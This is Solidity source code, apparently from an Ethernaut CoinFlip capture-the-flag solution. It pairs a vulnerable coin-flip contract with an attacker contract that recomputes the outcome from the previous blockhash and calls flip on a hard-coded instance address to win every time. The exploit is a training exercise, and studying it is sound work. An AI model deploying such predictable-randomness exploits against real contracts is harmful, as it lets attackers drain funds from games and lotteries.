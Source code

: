 interface IFlipCoin {
function consecutiveWins() external view returns (uint256);
function flip(bool \_guess) external returns (bool);
}

contract EthernautFlipCoint {
IFlipCoin s_flipCoin = IFlipCoin(0xdca01d8dD987B37D22F401aC0Bc0EacEe598EE44); // instance of the deployed CoinFlip contract
uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    event FlipResult(uint256 indexed consecutiveWinsCount);

    function makeCorrectGuess() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool correctSide = coinFlip == 1 ? true : false;
        s_flipCoin.flip(correctSide); // calling on behalf of the hacker
        uint256 consecutiveWinsCount = s_flipCoin.consecutiveWins();
        emit FlipResult(consecutiveWinsCount);
    }

}

contract CoinFlip {
uint256 public consecutiveWins;
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) { // basically the secret for determining the correct flip side
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false; // ALL THESE CAN BE COMPUTATED INDEPENDENTLY TO ALWAYS ARRIVE AT THE CORRECT OUTCOME

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }

}
